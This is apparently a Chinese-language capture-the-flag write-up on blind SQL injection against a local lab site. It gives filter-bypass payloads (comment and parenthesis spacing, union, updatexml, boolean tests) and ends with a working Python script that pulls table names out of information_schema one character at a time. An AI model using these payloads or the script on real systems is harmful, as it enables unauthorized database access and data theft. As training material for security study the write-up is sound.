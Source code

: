 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732543337309-2fc96f6f-0280-4902-977a-46120f182dc9.png)

```sql
Alice'/**/or/**/1=1/**/#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732543493132-daae4b81-618e-4c26-b442-d7bcd3cb5d80.png)反斜杠被过滤 

```sql
Alice'()or()1=1()#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732543654183-4baad183-918b-48af-83d5-1adfd893db26.png) 发现=也被过滤（我们可以用like或in代替）

这里想到试用联合查询

```sql
Alice'()union()select()1()#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732543858359-7e1d3301-6792-44cb-995e-9c86fac57ffb.png)  结果union也被过滤

再试用报错注入

```sql
Alice'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
```

发现没有如何回显 再结合题目名字应该属于盲注题目 并以利用  <font style="color:#601BDE;">Alice'and 0#</font> 和 <font style="color:#601BDE;">Alice'and 1# </font><font style="color:#000000;">尝试判断</font>

<font style="color:#000000;">先爆数据库中表的名字</font>

```python
import requests,time,string

url= 'http://127.0.0.1:59372/'

result= ''

for i in range(1,100):
    print('尝试次数',i)

    for c in  string.ascii_letters + string.digits + '_-{}':
        time.sleep(0.1)
        print('尝试的字符', c)

        tables=f'(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)like(database())))'

        char=f'(ord(mid({tables},{i},1)))'

        b=f'(({char})in({ord(c)}))'

        p=f'Alice\'and({b})#'
        res=requests.get(url, params={'student_name': p})

        if 'Alice'in res.text:
            print('正确',c)
            result +=c
            print(result)
            break
```
